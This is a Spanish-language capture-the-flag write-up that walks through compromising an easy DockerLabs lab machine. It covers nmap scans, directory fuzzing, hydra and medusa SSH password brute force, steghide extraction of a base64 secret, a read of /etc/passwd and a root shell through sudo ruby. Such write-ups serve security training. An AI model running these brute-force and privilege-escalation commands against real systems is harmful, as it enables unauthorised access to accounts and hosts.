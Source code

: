 
> Habilidades: Enumeración, fuerza bruta, escalada de privilegios (linux), esteganografía.


# RECONOCIMIENTO


## Nmap Scan

Realizamos el primer sondeo a la ip de la victimma para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/Nmap1Scan.png)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumaeración a los puertos abiertos.
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![Escaneo_Sevicios](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ServicesScan.png)
- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.
_____________________________________________________________________________________________________________________________________________________________________

## Http Service


Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extension de navegador Wappalyzer)

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/whatweb.png)

Abrimos en navegador y vamos a dicha web, leemos y podemos ver algo interesante, una nota de `Carlota`.
Yo siempre reviso view-source de la web por si se me escapa algo interesante.
![despido](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/despidoempleado.png)

_____________________________________________________________________________________________________________________________________________________________________

## Fuzzing



El siguiente paso será intentar descubrir posibles directorios, podemos usar cualquier herramienta de fuzzing, yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/zfuzz.png)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/burp.png)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intenta hacer fuerza bruta con uno de ellos. En este caso usaremos dos herramientas diferentes aunque con el mismo resultado.

~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especifica un nombre.
- `-P`: Especifica una lista de palabras.
- `-t4`: Especifica hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

~~~ bash
medusa -h 172.17.0.2 -u carlota -P /usr/share/wordlists/rockyou.txt -M ssh -t 4
~~~
![medusa](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/medusa.png)

- `-h`: Especifica la dirección IP del objetivo.
- `-u`: Especifica el nombre de usuario a probar.
- `-P`: Especifica el archivo de lista de contraseñas a utilizar.
- `-M`: Especifica el módulo a utilizar, en este caso SSH.
- `-t 4`: Especifica el número de hilos a utilizar para agilizar el proceso.

__¡¡BINGO!! obtuvimos las credenciales de Carlota.__

_____________________________________________________________________________________________________________________________________________________________________
# Escalada de privilegios

Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente, para ello cambiaremos el valor de la variable `$TERM`. En este caso, nuestra shell (SSH) ya es interactiva, solo necesitaremos export TERM=xterm.

~~~ bash
/bin/bash -i
export TERM=xterm
~~~

## Enumeracion entorno

En primer lugar veremos si tenemos privilegios `sudo` mediante `sudo -l`, pero no hay suerte. Seguimos enumerando y vemos una imagen en una carpeta de Carlota.

![estego](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/estego.png)

Vamos a comprobar si tiene información oculta. En primer lugar nos la descargamos, para ello lo vamos a hacer de dos modos diferentes, es bueno saver varias maneras de hacer las cosas ya que no siempre funcionan los mismos metodos.

~~~ bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /opt/amor
~~~
![scp](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/scp.png)

El segundo sería crear un servidor temporal con python y descargarla desde el lado del atacante.

~~~ bash
Victima
python3 -m http.server 8080
~~~
![httpserver](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/httpserver.png)
~~~
Atacante
wget http://172.17.0.2:8080/imagen.jpg
~~~
![wget](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/wget.png)


## Esteganografía y escalada de privilegios

Para comprobar si tiene informacion oculta o metadatos, usaremos la herramienta steghide.

Con las opciones extract y sf estraemos los metadatos si los hubiera en un archivo.

~~~
steghide extract -sf imagen.jpg
~~~
El contenido del archivo parece estar codificado en base64.

![steg](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/stg.png)

Decodificamos con un simple comando.

~~~
cat secret.txt | base64 -d
~~~
![decode](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/decode.png)

Probamos la contraseña para escalar a root pero no hay suerte. Revisamos el archivo /etc/passwd para ver los usuarios.
Observamos tres usuarios activos, oscar, carlota y root.

~~~
cat /etc/passwd
~~~
![users](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/users.png)

Probamos con el usuario Oscar y efectivamente funciona.
~~~
su oscar
whoami
~~~
![whoami](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/oscar.png)

Los siguientes pasos consisten en enumerar al igual que con el usuario Carlota.

Tanto directorios, como permisos  de archivos, rutas. El primer paso es saber si puede ejecutar sudo con `sudo -l`.
~~~
sudo -l
~~~
![whoami](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/nopasswd.png)

Podemos ver que el usuario Oscar puede ejecutar /usr/bin/ruby como root sin necesidad de contraseña.
Ahora vamos a averiguar la manera. Vamos a la web gtfobins.github.io, buscamos ruby y seleccionamos sudo.
Leemos atentamente, en este camos buscamos un shell simplemente.

![whoami](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/ruby.png)
~~~
sudo ruby -e 'exec "/bin/sh"'
whoami
~~~

![whoami](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Easy/images/root.png)

Pues ya estaría :D



